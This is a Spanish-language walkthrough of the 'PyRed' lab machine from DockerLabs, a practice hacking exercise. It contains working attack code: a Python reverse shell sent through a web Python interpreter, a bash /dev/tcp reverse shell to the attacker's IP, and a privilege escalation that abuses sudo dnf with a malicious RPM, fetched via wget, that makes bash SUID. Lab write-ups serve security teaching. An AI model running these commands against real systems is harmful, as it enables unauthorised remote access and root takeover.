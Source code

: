# Máquina PyRed

---------------------

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
5000/tcp open  upnp    syn-ack
```

Lo abrimos en el navegador:

![Pasted image 20240415012043](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/6e9add48-cee5-45ab-8adf-cea807dbd0f1)

Parece un compilador web donde podemos ejecutar comandos de python. Si por ejemplo ejecutamos:

```python
var = 7 + 7
print(var)
------------------
OUTPUT:
14
```

-------------

## Explotación

Vemos que interpreta python correctamente.
Por lo que trataremos de enviarnos una **Reverse shell**:

Nos pondremos en escucha con **netcat**:

```shell
nc -nlvp 3333
```

Introduciremos en la web:

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.37", 3333))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

Siendo la 192.168.1.37 la IP de mi máquina atacante.

Podemos utilizar cualquier **Reverse Shell** con python que queramos. (Las hay más sencillas)

---------------
### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.37/443 0>&1" 
```

(Siendo la 192.168.1.37 mi IP de la máquina atacante)

-------------

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------

## Escalada de privilegios

Hacemos un "**sudo -l**" para ver si podemos ejecutar algo como root.

```shell
sudo -l
----------------------
User primpi may run the following commands on af8905045dea:
    (ALL) NOPASSWD: /usr/bin/dnf
```

Vemos que podemos ejecutar **/usr/bin/dnf**. Herramienta esencial para la administración de paquetes en sistemas Linux basados en Fedora.
Si no sabemos como abusar de esta utilidad, siempre podemos recurrir a [GTFOBins](https://gtfobins.github.io/)

En nuestra máquina atacante crearemos un archivo **.rmp** malicioso. Con el comando que nos interese ejecutar como root.

```shell
TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```

Lo transferiremos a la máquina víctima, por ejemplo con un servidor con python en la máquina atacante:

```shell
sudo python3 -m http.server 80
```

Y lo descargamos en la máquina víctima:

```shell
wget http://192.168.1.37/x-1.0-1.noarch.rpm
```

Instalamos el paquete malicioso que hemos creado con **dnf**:

```shell
sudo /usr/bin/dnf install -y x-1.0-1.noarch.rpm
```

Al instalarlo, hemos cambiado la bash a **SUID**.
Como podemos ejecutarla como root:

```shell
bash -p
whoami
-----------------
root
```

Hemos conseguido el nivel de privilegios máximos en la máquina !
